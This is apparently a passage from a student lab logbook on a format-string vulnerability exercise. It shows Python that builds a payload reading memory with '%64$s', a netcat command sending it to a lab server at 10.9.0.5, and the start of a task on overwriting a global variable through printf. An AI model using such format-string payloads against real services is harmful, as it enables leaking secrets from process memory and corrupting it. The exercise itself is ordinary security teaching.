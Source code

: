         payload = (0x080b4008).to_bytes(4, byteorder='little') + b"\n%64$s"

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```

2. Send the payload to the server, using `cat badfile | nc -N 10.9.0.5 9090`.

3. Analyze the server logs

    - As you can see, the "A secret message" string was printed out to the terminal.

Terminal 1 | Terminal 2
:---------:|:---------:
![Server logs after the payload was sent to the server](images/logbook7/task2/02.png) | ![Sending the payload to the server](images/logbook7/task2/03.png)

<br>

## Task 3 : Modifying the Server Program’s Memory

The goal of this task is to use the vulnerable `printf` function to modify the `target` global variable.

This is divided into two sub-tasks:

### A. Change the value to a different value

1. Write the payload to change the `target` variable.
